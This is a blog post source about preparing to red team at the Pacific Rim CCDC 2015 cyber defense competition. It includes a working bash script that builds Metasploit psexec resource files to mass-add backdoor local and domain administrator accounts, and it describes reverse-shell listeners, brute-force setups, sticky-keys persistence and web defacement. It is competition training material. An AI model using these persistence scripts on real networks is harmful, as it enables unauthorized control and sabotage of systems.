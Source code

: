 ```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
category: 
year: 2015
month: 4
day: 15
published: true
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition.
---
```

     
<div class="row">  
     <div class="span9 columns">


<p>I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

<br><br><h3>Kali</h3>
<p>I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found <a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh">here</a>.


<p>Then, I made some manual tweaks:
<ul><li>Change root password</li>
<li>Enable autologin within <code>/etc/gdm3/daemon.conf</code></li>
<li>Disable screen lockout</li>
<li>Add Leafpad and Screenshot to taskbar</li>
<li>Alias <code>msfconsole='msfconsole -r /msfconsole.rc'</code></li>
<li>Add <code>* * * * * /payload_gen.sh</code> to crontab</li>
</ul>
<p>Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found a list of the top 10,000 US last names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

<p>I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.
{% highlight bash lineanchors %}
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
{% endhighlight %}
<a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh">Source</a>

<br><br>
<h3>Metasploit</h3>
<p>Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc">intel.rc</a> - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc">bounce</a> - Restarts a reverse_tcp listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc">bouncessl</a> - Restarts a reverse_https listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc">local500.rc</a> - Sets up for a brute force of the built-in 500 accounts. Modify with <code>file:///path/to/wordlist</code> on line 4.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">winpersist.rc</a> - Sets up sticky keys, utilman, and display persistence using psexec_command.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">msfconsole.rc</a> - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above


<br><br>
<h3>Commands</h3>
<p>The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan <a href="http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html">here</a>. 

<p>In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 




<br><br>
<h3>Defacement</h3>
<p>Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
<img src="{{site.url}}/assets/prccdc2015-defacement.gif">
<a href="https://github.com/bluscreenofjeff/CCDC-Scripts/tree/master/website-defacement">Source</a>

<p>Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     

<br><br>
<h3>Prepping for Next Year</h3>
<p>As I mentioned I had a blast this year and hope to attend again next year. Before then there are a few scripts I'd like to have written and in-hand before go-time:
<ul>
	<li><b>ndiff to monitor environment</b> - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.</li>
	<li><b>Low-hanging fruit scans</b> - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. </li>
	<li><b>Script to remove users from admin groups</b> - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.</li>
	<li><b>moar lulz</b> - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching some Boos from Super Mario Bros. chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...</li></ul>

<p>If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
     
     </div>
</div>
<div id="disqus_thread"></div>
<script type="text/javascript">
    /* * * CONFIGURATION VARIABLES * * */
    var disqus_shortname = 'bluscreenofjeff';
    
    /* * * DON'T EDIT BELOW THIS LINE * * */
    (function() {
        var dsq = document.createElement('script'); dsq.type = 'text/javascript'; dsq.async = true;
        dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
        (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript" rel="nofollow">comments powered by Disqus.</a></noscript>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
<script>
  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-61938642-1', 'auto');
  ga('send', 'pageview');

</script>
